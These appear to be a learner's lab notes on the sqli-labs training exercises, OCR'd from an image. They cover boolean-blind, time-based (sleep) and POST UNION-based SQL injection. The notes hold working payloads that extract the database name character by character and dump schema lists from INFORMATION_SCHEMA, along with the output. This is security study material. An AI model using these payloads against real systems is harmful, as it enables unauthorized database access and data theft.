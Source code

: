 '  OR substring(database(),1,1)="s"  #
first character of database is s 

'  OR substring(database(),2,1)="e"  #

second character of database is e 


Less-16 

Blind time based 
' OR sleep(10) #
" OR sleep(10) #
') OR sleep(10) #
") OR sleep(10) # {worked}

") OR sleep(10) and 1=1  #

") OR sleep(10) and substring(database(),3,1)="a"  #

application is sleeping when we fired this 

") OR sleep(10) and substring(database(),3,1)="c"  #

that means third character of database is c 

Less-17 

understand the busines slogic here 

password reset require existing user 


default username for this lab is admin 

------------------------------------------
Exploitation of POST Based SQLI 

Less-11

inject database query 

1. database list 

hackbar -> union -> database-> group_concat 

' union all select (SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),2 #

information_schema
challenges
dvwa
metasploit
mysql
owasp10
security
tikiwiki
tikiwiki195


2. find table of a database - security
